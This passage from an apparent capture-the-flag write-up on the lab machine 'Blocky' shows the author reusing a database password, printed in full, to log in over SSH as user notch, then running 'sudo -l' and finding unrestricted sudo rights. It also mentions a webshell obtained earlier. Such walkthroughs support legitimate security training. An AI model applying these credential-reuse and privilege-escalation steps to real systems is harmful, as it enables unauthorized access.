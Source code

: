 ![Webshell exemple](/assets/imgs/blocky/webshell_test.PNG)

I'm only "www-data" ! There is another method who let you connect as notch. Remembering that there is the SSH port open, I tried to connect as notch with the same password as the one from the database (8YsqfCTnvxAUeduzjNSXe22) :

```
ssh notch@10.10.10.37              
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ whoami
notch
```

And there I'm connected as notch ! First things that I do is to check if notch can run commands as another person :

```
notch@Blocky:/home/notch$ sudo -l
[sudo] password for notch:
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
